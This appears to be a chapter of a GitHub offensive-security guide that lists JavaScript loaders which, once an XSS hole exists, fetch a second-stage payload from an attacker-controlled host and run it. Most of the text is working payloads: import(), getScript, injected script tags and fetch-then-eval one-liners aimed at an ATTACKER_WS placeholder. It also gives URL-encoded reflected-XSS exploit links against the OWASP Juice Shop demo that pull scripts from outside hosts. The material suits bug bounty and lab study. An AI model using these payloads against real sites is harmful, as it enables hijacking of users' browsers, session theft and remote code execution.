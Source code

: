 # Second Stage JavaScript Payload Loaders

<p align="justify">This chapter documents JavaScript payloads used to load and execute second stage payloads.</p>

<p align="justify">Although a lot of amazing online resources exist on the topic of XSS, none that i am aware of cover second stage payload loaders in more detail.</p>

* **NOTE**: this is not an exhaustive list - further payload options and options for modifying the payload exist
    * all payloads listed here are proven to work and have been battle-tested on Bug Bounty platforms
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional payloads or different variants

## `import()` - round brackets; quote; `Access-Control-Allow-Origin` required

```
import('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; new] `$.getScript()` - round brackets; quote; dollar

```
$.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; old] `jQuery.getScript()` - round brackets; quote

```
jQuery.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## `appendChild()` #1 - round brackets; quote; equal

```
with(document)body.appendChild(createElement('script')).src='//ATTACKER_WS/PATH/JS_PAYLOAD';
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2F14.rs%2Ftest.js%27%3B%22%3E

## `appendChild()` #2 - round brackets; quote; equal; space

```
var js=document.createElement('script');js.type='text/javascript';js.src='//ATTACKER_WS/PATH/JS_PAYLOAD';document.body.appendChild(js);
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22var%20js%3Ddocument.createElement(%27script%27)%3Bjs.type%3D%27text/javascript%27%3Bjs.src%3D%27%2F%2F14.rs%2Ftest.js%27%3Bdocument.body.appendChild(js)%3B%22%3E

## `fetch()` #1 - round brackets; right angle bracket; quote; equal; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(r=>r.text().then(t=>eval(t)));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(r%3D%3Er.text().then(t%3D%3Eeval(t)))%3B%22%3E

## `fetch()` #2 - round brackets; curly brackets; quote; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(function(r){return r.text().then(function(t){return eval(t);})});
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D)%3B%22%3E

## `fetch()` #3 - round brackets; curly brackets; quote; equal; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
async function g(f){o=await fetch(f);t=await o.text();eval(t);};g('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22async%20function%20g(f)%7Bo%3Dawait%20fetch(f);t%3Dawait%20o.text();eval(t);%7D;g(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E
